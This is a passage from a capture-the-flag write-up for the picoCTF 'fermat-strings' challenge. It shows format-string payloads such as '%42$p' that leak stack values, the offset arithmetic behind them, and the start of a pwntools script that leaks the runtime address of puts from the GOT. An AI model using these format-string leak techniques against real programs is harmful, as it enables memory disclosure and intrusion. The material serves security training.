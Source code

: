 ```
Calculating for A: 1_0x400bd7.0x7fffffffe7b2.(nil).0xffffffff.0x7fffffffe3e0.(nil).(nil).(nil).0x100000001 and B: 1_ABCDEFGH
```

We can see that the leaked values converge with the dumped stack here:

```
0x00007fffffffe550│+0x0000: 0x0000000000000000
0x00007fffffffe558│+0x0008: 0x0000000000000000
0x00007fffffffe560│+0x0010: 0x0000000000000000
0x00007fffffffe568│+0x0018: 0x0000000100000001
```

So the ninth leaked value (`0x0000000100000001`) is the forth dumped stack value (`0x0000000100000001`). Now we find our marker at:

```
0x00007fffffffe670│+0x0120: "1_ABCDEFGH"
```

So we calculate: `(0x00007fffffffe670 - 0x00007fffffffe568) / 8 = 33`. We add the nine from before to get `42`. Let's see what that gives us:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/fermat-strings]
└─$ ./chall
Welcome to Fermat\'s Last Theorem as a service
A: 1_%42$p
B: 1_ABCDEFGH
Calculating for A: 1_0x4645444342415f31 and B: 1_ABCDEFGH
```

Good, we were able to arrive to `4645444342415f31` which translates to `FEDCBA_1`, so we are in the area. Remember that the `1_` prefix is just there to bypass `atoi`, so to capture the full 8 bytes of the value we provide, we play a bit with the offsets and add alignment padding:

```console
┌──(user@kali)-[/media/sf_CTFs/pico/fermat-strings]
└─$ ./chall
Welcome to Fermat\'s Last Theorem as a service
A: 1_%43$p
B: 1_______ABCDEFGH
Calculating for A: 1_0x4847464544434241 and B: 1_______ABCDEFGH
```

Now we can start leaking addresses. We can use the following `pwntools` script to leak the `puts` runtime address:

```python
def send_payload(io, a, b):
    log.info(f"Sending:\nA:\n{a}\nB:\n{hexdump(b)}")
    io.sendlineafter("A: ", a)
    io.sendlineafter("B: ", b)

def send_format(io, format, values):
    format_prefix = b'1___'
    values_prefix = b'1_______'
    send_payload(io, format_prefix + format, values_prefix + values)
    out = io.recvline()
    arr = out.split(b" and ")
    res = arr[0].replace(b"Calculating for A: " + format_prefix, b"")
    log.info(f"Received:\n{hexdump(res)}")
    return res

log.info(f"puts() GOT address: {hex(exe.got['puts'])}")

fmt_first_offset = 43

io = start()
```